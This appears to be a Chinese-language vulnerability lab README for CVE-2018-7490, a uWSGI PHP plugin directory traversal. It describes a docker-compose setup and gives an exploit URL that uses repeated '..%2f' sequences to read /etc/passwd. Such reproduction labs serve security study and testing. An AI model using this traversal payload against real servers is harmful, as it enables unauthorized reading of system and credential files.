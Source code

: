# uWSGI PHP目录穿越漏洞（CVE-2018-7490）

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 漏洞环境

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![](1.png)
